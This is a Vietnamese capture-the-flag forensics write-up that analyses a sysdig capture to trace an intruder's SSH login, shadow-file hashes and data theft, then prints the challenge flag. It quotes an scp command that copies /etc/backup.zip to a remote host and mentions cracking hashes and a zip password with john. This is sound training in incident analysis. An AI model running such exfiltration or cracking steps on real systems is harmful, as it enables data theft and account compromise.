








# StratoMonk 


> Tệp scap này được sysdig ghi lại các sự kiện hệ thống, cho nên có thể phân tích hoạt động của hệ thống.

## User

Dùng strings phát hiện ra các lần đăng nhập từ xa thông qua sshd của user: dark_monkey



## Password

Vì là bản ghi lại hệ thống nên ta có thể xem được các lần đăng nhập hay mật khẩu được lưu tại file __/etc/shadow/__. Thực hiện grep theo user vừa tìm được



Ở trên có cả 2 thông tin của file /etc/passwd và /etc/shadow, cần mật khẩu nên ta chỉ cần lưu thông tin của /etc/shadow



## Sensitive Data

Vì tìm dữ liệu bị đánh cắp nên ta sẽ tìm theo SCP

> scp là viết tắt của Secure Copy Protocol, là một lệnh dùng để sao chép file giữa máy local và máy remote (hoặc giữa hai máy remote) qua giao thức SSH



`scp /etc/backup.zip SpecialAgent@10.10.10.55:/tmp/backup.zip
`
Lệnh trên thực hiện gửi file /backup.zip đến địa chỉ 10.10.10.55 từ xa. Đây có thể là dấu hiệu của việc đánh cắp dữ liệu

Mình sử dụng công cụ mạnh hơn để phân tích sự kiện hệ thống là sysdig

``
sysdig -r stratomonk2.scap "evt.type == read and fd.name contains '/etc/backup.zip'"
``

- Giải thích:

| **Phần** | **Ý nghĩa** |
|----------|-------------|
| `sysdig` | Gọi công cụ sysdig để phân tích sự kiện hệ thống |
| `-r stratomonk2.scap` | Đọc file `stratomonk2.scap` (file chứa các sự kiện hệ thống đã được ghi lại trước đó) |
| `"evt.type == read and fd.name contains '/etc/backup.zip'"` | Lọc các sự kiện có kiểu là `read` (tức là process đang đọc dữ liệu từ đâu đó) và tên file được đọc có chứa chuỗi `/etc/backup.zip` |



Có thể thấy một process scp có một yêu cầu read để đọc file backup.zip nhưng chỉ được trả về 256 byte, giờ muốn lấy được file zip hoàn chỉnh thì phải lọc theo lệnh read rồi ghép các phần data đó lại.

Sau một hồi thì mình cũng đã có được file  .zip



Dùng john để crack 


Dùng pass đó giải nén ta được phần 3 của flag



```
Flag: ZiTF{dark_monkey:m0NK3y!_s3CR3t_N0t3s:=)}
```


